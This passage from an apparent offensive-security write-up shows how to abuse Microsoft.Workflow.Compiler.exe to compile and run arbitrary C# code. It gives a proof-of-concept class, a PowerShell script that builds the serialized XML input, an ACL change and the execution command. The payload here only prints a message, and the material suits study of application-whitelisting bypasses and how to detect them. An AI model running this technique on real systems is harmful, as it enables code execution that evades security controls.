 file containing code we provide must contain a class that inherits from the Activity class of the System.Workflow.ComponentModel namespace and must contain the code we want to execute inside its constructor.

Proof of concept code as input file- test.txt

    using System;
    using System.Workflow.ComponentModel;
    public class Run : Activity{
        public Run() {
            Console.WriteLine("I executed!");
        }
    }

we need to create a valid input file in XML format that will be processed by Microsoft.Workflow.Compiler and used to compile and load our C# code

Powershell Script:

    $workflowexe = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe"
    $workflowasm = [Reflection.Assembly]::LoadFrom($workflowexe)
    $SerializeInputToWrapper = [Microsoft.Workflow.Compiler.CompilerWrapper].GetMethod('SerializeInputToWrapper', [Reflection.BindingFlags] 'NonPublic, Static')
    Add-Type -Path 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Workflow.ComponentModel.dll'
    $compilerparam = New-Object -TypeName Workflow.ComponentModel.Compiler.WorkflowCompilerParameters
    $compilerparam.GenerateInMemory = $True
    $pathvar = "test.txt"
    $output = "C:\run.xml"
    $tmp = $SerializeInputToWrapper.Invoke($null, @([Workflow.ComponentModel.Compiler.WorkflowCompilerParameters] $compilerparam, [String[]] @(,$pathvar)))
    Move-Item $tmp $output

Verify Contents of serialized XML file generated by SerializeInputToWrapper

    cmd> type C:\run.xml

we need to ensure the user is able to access the generated file:

    PS C:\> $Acl = Get-ACL $output;$AccessRule= New-Object System.Security.AccessControl.FileSystemAccessRule(“username”,”FullControl”,”none”,”none","Allow");$Acl.AddAccessRule($AccessRule);Set-Acl $output $Acl

Executing the proof of concept:

    cmd> C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe run.xml results.xml

The downside to this attack is that we must provide both the XML file and the C# code file on disk, and the C# code file will be compiled temporarily to disk as well.
    

